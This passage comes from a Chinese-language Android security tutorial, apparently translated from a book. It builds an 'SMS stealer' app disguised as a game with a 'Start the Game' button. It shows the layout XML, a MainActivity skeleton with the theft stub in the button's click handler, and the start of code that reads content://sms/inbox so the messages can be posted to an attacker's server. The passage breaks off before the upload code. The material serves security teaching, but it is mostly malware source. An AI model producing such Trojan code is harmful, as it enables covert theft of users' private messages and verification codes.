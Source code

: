    <Button
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        android:text="Start the Game"
        android:id="@+id/btnStart"
        android:layout_alignTop="@+id/imageView"
        android:layout_centerHorizontal="true"
        android:layout_marginTop="84dp" />

</RelativeLayout>
```

正如我们可以在前面的节选中看到的，我们有一个`ImageView`，其中我们加载图像作为背景，然后我们有一个**按钮**，用于显示文本**启动游戏**。

#### MainActivity.java 的代码

现在打开打开`MainActivity.java`并为`Button`类声明一个对象。然后声明一个名为`sms`的字符串变量，该变量将用于存储稍后从设备读取的消息。另外，使用`BasicNameValuePair`创建一个`ArrayList`类类型的对象。`NameValuePair`是一个特殊的<键、值>对，用于表示 HTTP 请求中的参数。我们在这里使用它，因为我们需要稍后通过 HTTP 请求将 SMSE 发送到服务器。最后，为我们创建的按钮设置一个`OnClickListener`事件。每当单击此按钮时，此按钮用于执行代码：

```
public class MainActivity extends Activity {

    Button btn;
    String sms = "";

    ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {

       //SMS Stealing code here

            }
        });

    }
```

正如您在前面的摘录中所看到的，SMS stealer 应用的框架已经准备就绪。我们现在需要在`onClick()`方法中添加短信窃取代码。

#### 读短信代码

以下是从短信应用收件箱中读取短信的代码。目标是实现以下目标：

*   阅读内容提供商的短信`content://sms/inbox`
*   将这些短信存储为基本名称-值对
*   使用 http post 请求将此名称-值对上载到攻击者的服务器：

    ```
    Thread thread = new Thread(){

      @Override
      public void run() {

        Uri uri = Uri.parse("content://sms/inbox");

        Cursor cursor = getContentResolver().query(uri,null,null,null,null);

        int index = cursor.getColumnIndex("body");
```